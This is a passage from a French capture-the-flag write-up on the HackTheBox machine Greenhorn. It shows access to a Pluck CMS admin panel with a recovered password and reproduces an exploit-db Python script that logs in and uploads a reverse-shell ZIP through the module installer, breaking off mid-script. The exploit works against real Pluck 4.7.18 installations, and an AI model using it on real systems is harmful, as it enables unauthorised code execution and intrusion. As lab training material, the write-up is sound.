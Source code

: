 Avec ce mot de passe, on est capable d'accéder à l'admin panel de pluck

```bash
http://greenhorn.htb/admin.php?action=start
```

L'accès à l'admin panel est confirmé. Encherchant un peu, on se rend compte qu'il est possible d'uploader des fichiers depuis l'admin panel. La façon parfaite d'obtenir un reverse shell !
Depuis l'admin panel, on essaye donc d'uploader un fichier `reverse-shell.php` mais le serveur ajoute automatiquement un `.txt`.
Différentes extensions donnent le même résultat `(.php5, .php7, .phtml, phar, etc)`. Il faut donc trouver une méthode alternative d'uploader un fichier.
En fouillant un peu sur `exploit-db.com` on trouve le RCE suivant:
[upload-reverse-shell.py](https://www.exploit-db.com/exploits/51592)

```python
#Exploit Title: Pluck v4.7.18 - Remote Code Execution (RCE)
#Application: pluck
#Version: 4.7.18
#Bugs:  RCE
#Technology: PHP
#Vendor URL: https://github.com/pluck-cms/pluck
#Software Link: https://github.com/pluck-cms/pluck
#Date of found: 10-07-2023
#Author: Mirabbas Ağalarov
#Tested on: Linux


import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

login_url = "http://greenhorn.htb/login.php"
upload_url = "http://greenhorn.htb/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "iloveyou1","bogus": "","submit": "Log in"}

file_path = "/home/kali/reverse-shell.zip"

multipart_data = MultipartEncoder(
    fields={
        "sendfile": ("reverse-shell.zip", open(file_path, "rb"), "application/zip"),
        "submit": "Upload"
    }
)

session = requests.Session()
login_response = session.post(login_url, headers=headers, data=login_payload)


if login_response.status_code == 200:
    print("Login account")


    upload_headers = {
        "Referer": upload_url,
        "Content-Type": multipart_data.content_type
    }
    upload_response = session.post(upload_url, headers=upload_headers, data=multipart_data)


    if upload_response.status_code == 200:
        print("ZIP file download.")
    else:
        print("ZIP file download error. Response code:", upload_response.status_code)
else:
```